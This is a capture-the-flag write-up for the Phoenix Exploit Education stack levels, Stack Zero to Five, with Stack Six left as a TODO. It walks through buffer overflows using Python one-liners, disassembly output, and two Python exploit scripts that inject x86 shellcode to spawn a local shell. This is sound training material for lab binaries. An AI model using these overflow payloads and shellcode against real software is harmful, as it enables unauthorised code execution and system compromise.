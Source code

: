 # Phoenix (Exploit Education) Write Up

Note that I added `/opt/phoenix/i486/` to the `PATH` env variable so that we avoid typing the whole path each time we have to launch the executable of a level.

## Stack Zero

We can overflow the buffer variable to modify the variable using `echo $(python -c 'print "\xFF"*65') | stack-zero`.

## Stack One

Same trick here, but we have to specify a value. We use `stack-one $(python -c 'print "\xFF"*64 + "\x49\x6c\x59\x62"[::-1]')`.

Note that we reverse the order of the hex value to handle the endianness.

## Stack Two

It's the same thing as `stack-one`, except we put the value in the env variable instead of passing it as an argument: `ExploitEducation=$(python -c 'print "\xFF"*64 + "\x0d\x0a\x09\x0a"[::-1]') stack-two`.

## Stack Three

We get the address of the `complete-level()` function using obj-dump:

```bash
user@phoenix-amd64:~$ objdump -d /opt/phoenix/i486/stack-three
[...]
08048535 <complete_level>:
 8048535:	55                   	push   %ebp
 8048536:	89 e5                	mov    %esp,%ebp
 8048538:	83 ec 08             	sub    $0x8,%esp
[...]
```

Here the function resides at address `0x08048535`. We then use the same trick as in the previous levels and can execute the command `echo $(python -c 'print "\xFF"*64 + "\x08\x04\x85\x35"[::-1]') | stack-three` to finish the level.

## Stack Four

Here we'll overflow the buffer until it overwrites the return address (as it's pushed to the stack when a function is called). We determine the address of the `complete-level()` function as in Stack Three (in this case it's `0x080484e5` ). We can then execute `echo $(python -c 'print "\x08\x04\x84\xe5"[::-1]*21') | stack-four` to finish the level.

Here, we see that we need to repeat the string at least 16 times to fill the buffer. We then have to "pass" over the remaining things that resides on the stack (such as the `ret` variable, the saved `ebp`, and so on) until we overwrite the return address. This is where the 21 factor comes from. Also, as the buffer is memory aligned, we don't have to take care of adding padding to our string.

## Stack Five

##### Method 1

My first idea was to put the shellcode at the beginning of the `buffer` array, and then overflow the rest of the array with the address of the first element of the array. This way, when the function `start_level()` will return, it will jump to the beginning of the array and start executing the shellcode. The problem is that the addresses of the beginning of the array in GDB and during a "normal" launch are not exactly the same, typically due to environnement variables, and so on. Thus, what we can do instead is fill all the beginning of the array with NOP opcode (which does nothing), then add the shellcode at the very end of the array and finally overflow the array with an approximation of the address of the beggining of the array. This way, even if we are not 100% accurate, we will fall in the NOP section and eventually end up executing our shellcode.

 We thus first need to compute tapproximatively he address of the `buffer` array. By decompiling the function `start_level()`  we get how the array pointer is passed to the function `gets()`:

```bash
[...]
   0x08048491 <+12>:	lea    eax,[ebp-0x88]
   0x08048497 <+18>:	push   eax
   0x08048498 <+19>:	call   0x80482c0 <gets@plt>
[...]
```

Using GDB we get that `ebp` is equal to `0xFFFFDE18`. The array address is thus `0xFFFFDE18 - 0x88 = 0xFFFFDD90`. 

Also, shellcodes can be found online. For the architecture I used, I found [this](http://shell-storm.org/shellcode/files/shellcode-841.php) shellcode using the [shell-storm database](http://shell-storm.org/shellcode/). 

We can then write a python script `stack-five.py` that creates our complete string : 

```python
#!/usr/bin/env python
BUFFER_SIZE = 128
shellcode = bytearray("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f"    								"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd"
					"\x80")


output = bytearray("\xFF\xFF\xDD\xE0"[::-1] * 40)
for i in range(BUFFER_SIZE - len(shellcode)):
                      output[i] = "\x90"

output[BUFFER_SIZE - len(shellcode):BUFFER_SIZE] = shellcode[:]

print str(output)
```

And start the attack with `cat <(./stack-five.py) - | stack-five `. Note that `cat <(./stack-five.py) -` allows to concatenate the output of our script with `stdin`. This way, once the string will been read by `gets()`, we will still be able to execute command in the shell as `stdin` is concatenated.

##### Method 2

A second, cleaner, method is to use to use the [jump-to-address](https://en.wikipedia.org/wiki/Buffer_overflow#The_jump_to_address_stored_in_a_register_technique) technique. We first notice that at the end of the `start-level()` function the address of the beggining of the buffer is stored in register `eax` (as it's an argument to the `gets()` function). Thus, if we manage to jump to a portion of code that itself jumps at the address stored in `eax`, we'll end up executing whatever is stored at the beginning of the `buffer` array.

To find sucha  portion of code, we dissasemble the executable. This part looks promising :

```bash
[...]
 8048500:	ff d0                	call   *%eax
[...]
```

We thus know we have to return to address `0x08048500`. Once again, we craft a special string composed with our shellcode at the beginning, and then a lot of time the address, so that it overflows the buffer and overwrites the return address of the current function. Here is the final exploit :

```python
#!/usr/bin/env python
shellcode = bytearray("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f"    								"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd"
					"\x80")

output = bytearray("\x08\x04\x85\x00"[::-1] * 40)
output[:len(shellcode)] = shellcode[:]

print str(output)
```

The shell is then opened using `cat <(./stack-five.py) -| stack-five`.

## Stack Six

We can change only the last byte of the saved EBP (byte of least value).

***TODO***: Continue from Stack Six